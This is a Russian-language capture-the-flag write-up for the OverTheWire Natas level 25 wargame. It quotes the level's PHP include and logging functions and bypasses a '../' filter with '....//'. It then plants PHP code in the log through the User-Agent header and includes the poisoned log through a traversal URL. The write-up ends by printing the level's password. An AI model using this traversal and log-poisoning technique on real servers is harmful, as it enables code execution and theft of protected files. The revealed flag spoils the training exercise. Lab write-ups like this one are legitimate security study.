 интерес представляют следующие функции
```php
function safeinclude($filename){
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    if (file_exists($filename)) { 
        include($filename);
        return 1;
    }
    return 0;
```

```php
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
```
в первой функции есть 2 этапа проверки
вполне очевидно, что второй этап обойти не получится, папка с паролями (**/etc/natas_webpass/natas26**) для нас закрыта
однако, первый этап проверки достаточно слаб, есть возможность обойти его при помощи следующей конструкции: ....// , в таком случае ../ меняется на ничего и мы получаем ../
таким образом мы можем получить путь куда угодно

Вторая функция пишет лог в /var/www/natas/natas25/logs/natas25_{PHPSESSIONID}.log
не сложно заметить, что первая функция, при прохождении всех этапов проверки, выполняет include, то есть буквально вставляет код страницы
Это можно заабьюзить путем добавления 
```php
<?php {ПРОИЗВОЛЬНЫЙ КОД} ?>
```
в файл лога (к которому у нас есть доступ при обходе первого этапа)
Дело за малым, залить через User-Agent наш пэйлоуд
```http-header
User-Agent:<?php include("/etc/natas_webpass/natas26") ?>
```
после чего запросить страницу с нашим логом
```url
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//....//....//var/www/natas/natas25/logs/natas25_{PHPSESSIONID}.log
```
и таким образом получаем
<details>
<summary>Флаг</summary>
cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
</details>

